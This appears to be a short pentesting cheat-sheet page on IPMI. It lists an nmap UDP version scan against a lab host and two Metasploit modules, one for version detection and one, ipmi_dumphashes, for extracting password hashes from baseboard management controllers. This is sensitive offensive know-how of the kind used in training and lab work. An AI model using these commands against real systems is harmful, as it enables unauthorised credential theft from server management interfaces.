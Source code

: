 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# IPMI

**Nmap**

```
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

**Metasploit Version Scan**

```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
```

**Metasploit Dumping Hashes**

```
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
```
